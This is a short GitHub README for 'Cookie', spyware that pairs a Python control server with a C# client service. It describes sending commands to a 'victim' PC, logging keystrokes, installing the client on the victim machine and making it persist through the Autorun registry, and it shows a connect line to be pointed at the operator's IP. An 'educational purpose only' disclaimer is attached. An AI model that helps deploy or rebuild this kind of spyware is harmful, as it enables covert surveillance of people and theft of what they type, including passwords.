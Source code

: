 # __Cookie__:cookie:
![Version](https://img.shields.io/badge/Version-01.02-brightgreen)
![Author](https://img.shields.io/badge/Author-Caleb-blue)
![Language](https://img.shields.io/badge/Language-python-orange)
![Language](https://img.shields.io/badge/Language-Cs-orange)
![License](https://img.shields.io/badge/License-MIT-red)

## Description

Cookie is a Spyware created for educationl purpose only so use this only in a protected and authorized environment.

### Purpose

It's a spyware so... spy! It can send all sorts of commands to the pc victim, and it is also a __keylogger__ so it can read what the victim is typing on his keyboard.

---

### Directories Structure

---

### Instructions

- The Cookie Server is the python script, this is the script that you have to use for controlling the victim machine;

You can use it on your mobile phone (use QPython) or in your computers. You have to set only the IP, the victim has to be in your LAN or you have to use a forward port. The default port is [7373]

- The Cookie Client is the C# service; You have to change the IP and the default port to your ip:

```c#
cookie.Connect("127.0.0.1",7373);
```

You must install it on victim machine and in some way (there are a lot of ways) start it, then it writes it self in the Autorun registry.
Then it will search for Cookie Server.

---

Made by [Caleb Gucciardi](https://github.com/d0gs3c)
|
Edited by [Chiara Sabaini](https://www.github.com/chiarasabaini)
